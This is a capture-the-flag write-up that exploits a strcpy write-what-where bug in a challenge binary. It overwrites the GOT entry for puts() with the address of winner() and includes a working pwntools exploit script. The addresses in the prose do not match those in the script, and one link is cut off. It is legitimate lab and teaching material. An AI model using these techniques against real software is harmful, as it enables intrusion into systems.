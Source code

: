 # Solution Write Up for A Winning Attitude

The binary was analyzed with Python pwnlib's "checksec". This shows that “PIE is disabled”.

![binary](assets/images/00.png)

With PIE disabled, this provides some good news.

![PIE](assets/images/01.png)

**Figure:** Quote from 0x00sec.org regarding PIE and GOT for ROP.

[https://0x00sec.org/t/exploit-mitigation-techniques-address-space-layout-randomization-aslr/5452](https://0x00sec.org/t/It was determined that utilizing a predictable address via GOT would be more reliable.

**Figure:** Ghidra decompile of main()

[(https://ghidra-sre.org)](https://ghidra-sre.org)

With Ghidra, the winner() function is decompiled so that it can be determined when successful exploitation has occurred. When the winner() function is called, the text file "flag.txt" is printed out.

![winner](assets/images/03.png)

**Figure:** Ghidra decompile of winner() function.

The program segfaults when sending 1024 chars as payload1 and payload2, so the offset needs 
to be determined. The offset for payload1 is idenfied as “20” with help from the Metasploit
pattern creator and gdb.

![frame](assets/images/04.png)

**Figure:** gdb showing the frame and registers at time of segfault

![metasploit](assets/images/05.png)

**Figure:** Metasploit “./pattern_create.rb” to create a pattern, then “./pattern_offset.rb” to identify the offset of the payload.

By sending payload1 as “(“A” * 20) + (“B” * 4)” plus payload2 (“C”), then using ltrace, it is obvious that we now have control over the destination memory address passed to the strcpy(\<destination\>, \<source\>) as well as the source data “C”.

![segfault](assets/images/06.png)

**Figure:** Segfault with strcpy(0x42424242, “C”) from the payload BBBB.

Using this WWW (Write What Where) primitive an address could be overwritten in the GOT (Global offset table).

(**Reference:** How to hijack the Global Offset Table with pointers for root shells, 
https://www.exploit-db.com/raw/13203)

Now, we need to determine a function to overwrite. Using ltrace, it appears that puts() is a good candidate that executes upon completion of strcpy().

![segfault](assets/images/07.png)

**Figure:** strcpy(), memset(), then puts()

To determine the memory address of puts(), objdump is used to dump the address of the 
dynamic relocation. The puts() address is 0x0804b040.

![puts](assets/images/08.png)

**Figure:** Dynamic relocations dumped to determine address of “puts” function that outputs “Yay you printed some text” at the end of the program

With a destination memory address of puts() ready to overwrite, the winner() function address is identified with GDB as 0x080489a7.

![winner](assets/images/09.png)

**Figure:** gdb, ‘disassemble winner’ which starts at 0x080489a7

```python
#!/usr/bin/env python3

from pwn import *
import sys, struct
import getpass

# Start the process
context.terminal = ['tmux', 'new-window']
elf = context.binary = ELF('./exe/www_net')

gs = '''
b *printf
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        #return remote('challenges.ctfd.io', 30461)
        return remote('localhost', 8080)
    else:
        return process(elf.path)

p = start()


if not args.REMOTE:
    # Wait for user input incase you want to attach a debugger
    log.success('Binary Executed, Press Enter to continue')
    sys.stdin.read(1)

# Print the programs message
got_entry_for_puts = 0x804c030
address_of_winner = 0x8049427
p.send(b'A' *20 + p32(got_entry_for_puts))
p.recv()
p.send(p32(address_of_winner))
print(p.recvall().decode('utf-8').split('\n')[1])
```

**Figure:** [solution.py](solution.py) prepared

Running it on the local instance of the challenge returns the flag.

![ltrace](assets/images/11.png)
